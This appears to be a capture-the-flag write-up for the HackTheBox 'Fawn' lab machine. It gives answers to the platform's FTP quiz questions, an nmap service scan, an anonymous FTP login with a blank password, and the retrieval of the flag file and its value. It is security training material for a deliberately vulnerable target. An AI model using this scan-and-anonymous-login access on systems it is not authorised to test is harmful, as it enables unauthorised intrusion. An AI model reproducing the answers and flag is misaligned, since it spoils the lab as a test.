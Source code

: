 ```yaml
---
title: 🔵 HTB / Starting Point / Fawn 
date: 2022-09-22
categories: [HackTheBox, Machines]
tags: [ftp]
---
```


# Fawn

What does the 3-letter acronym FTP stand for?

`File Transfer Protocol`

Which port does the FTP service listen on usually?

`21`

What acronym is used for the secure version of FTP?

`SFTP`

What is the command we can use to send an ICMP echo request to test our connection to the target?

`ping`

From your scans, what version is FTP running on the target?

`vsftpd 3.0.3`

From your scans, what OS type is running on the target?

`Unix`

What is the command we need to run in order to display the 'ftp' client help menu?

`ftp -h`

What is username that is used over FTP when you want to log in without having an account?

`anonymous`

What is the response code we get for the FTP message 'Login successful'?

`230`

There are a couple of commands we can use to list the files and directories available on the FTP server. One is *dir*. What is the other that is a common way to list files on a Linux system.

`ls`

What is the command used to download the file we found on the FTP server?

`get`

Submit root flag:

```bash
$ nmap -p- -sV <ip>
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
Service Info: OS: Unix

$ ftp <ip>
Connected to <ip>.
220 (vsFTPd 3.0.3)

Name (<ip>:root): anonymous
331 Please specify the password.

Password: <blank>
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.

ftp> get flag.txt
local: flag.txt remote: flag.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for flag.txt (32 bytes).
226 Transfer complete.
32 bytes received in 0.00 secs (151.6990 kB/s)

ftp> exit
221 Goodbye.

$ cat flag.txt 
035db21c881520061c53e0536e44f815
```

